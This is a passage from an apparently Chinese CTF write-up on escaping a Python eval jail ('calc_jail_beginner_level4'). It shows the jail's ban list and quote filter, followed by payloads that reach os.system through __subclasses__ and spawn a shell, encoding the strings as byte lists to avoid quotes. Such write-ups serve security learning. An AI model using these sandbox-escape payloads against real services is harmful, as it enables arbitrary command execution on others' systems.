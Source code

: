 ```python
                    print(self.known)
                    break
            else:
                raise Exception('GG simida')            
            i += 1

if __name__ == '__main__':
    g = Gao()
    g.gao()
```

#### 7.calc_jail_beginner_level4

远程代码

```py
#Try to read file ./flag

BANLIST = ['__loader__', '__import__', 'compile', 'eval', 'exec', 'chr']

eval_func = eval

for m in BANLIST:
    del __builtins__.__dict__[m]

del __loader__, __builtins__

def filter(s):
    not_allowed = set('"\'`')
    return any(c in not_allowed for c in s)

input_data = input("> ")
if filter(input_data):
    print("Oh hacker!")
    exit(0)
print('Answer: {}'.format(eval_func(input_data)))
```

还是溯源到object去找os模块

> ```py
> ().__class__.__base__.__subclasses__()
> ```

发现`<class 'os._wrap_close'>`在倒数第四个

> ```py
> ().__class__.__base__.__subclasses__()[-4].__init__.__globals__['system']('sh')
> ```

这里由于把引号啥的都禁了，需要改一下payload

法一：利用`bytes`的ASCII list初始化方式

> ```py
> ().__class__.__base__.__subclasses__()[-4].__init__.__globals__[bytes([115, 121, 115, 116, 101, 109]).decode()](bytes([115, 104]).decode())
> ```
